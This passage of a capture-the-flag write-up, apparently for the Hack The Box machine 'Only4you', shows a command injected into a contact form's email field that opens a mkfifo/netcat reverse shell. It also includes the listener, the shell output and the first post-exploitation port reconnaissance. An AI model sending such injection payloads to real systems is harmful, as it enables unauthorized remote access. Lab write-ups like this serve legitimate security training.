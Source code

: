 Open a listener :

```shell
rlwrap -cAr nc -lvnp 4444
```

and get a reverse shell :

```shell
curl http://only4you.htb/ --data-urlencode 'email=test@domain.com|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.14 4444 >/tmp/f' --data 'subject=test' --data 'message=Hello'
```

And we get a shell :

```shell
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.210.
Ncat: Connection from 10.10.11.210:60812.
sh: 0: can't access tty; job control turned off
whoami
www-data
pwd
/var/www/only4you.htb
$ 
```

### Maintaining access

## Post-Exploitation

### Host Reconnaissance

```shell
ss -tlnp
```

```text
State    Recv-Q   Send-Q          Local Address:Port        Peer Address:Port   Process       
LISTEN   0        70                  127.0.0.1:33060            0.0.0.0:*                    
LISTEN   0        151                 127.0.0.1:3306             0.0.0.0:*                    
LISTEN   0        511                   0.0.0.0:80               0.0.0.0:*       users:(("ngin
x",pid=1048,fd=6),("nginx",pid=1047,fd=6))
LISTEN   0        4096            127.0.0.53%lo:53               0.0.0.0:* 
LISTEN   0        4096            127.0.0.53%lo:53               0.0.0.0:*                              LISTEN   0        128                   0.0.0.0:22               0.0.0.0:*                              LISTEN   0        4096                127.0.0.1:3000             0.0.0.0:*                              LISTEN   0        2048                127.0.0.1:8001             0.0.0.0:*                              LISTEN   0        4096       [::ffff:127.0.0.1]:7687                   *:*                              LISTEN   0        50         [::ffff:127.0.0.1]:7474                   *:*                              LISTEN   0        128                      [::]:22                  [::]:* 
```

When scanning with nmap, we had only ports 22 (SSH) and 80(HTTP).
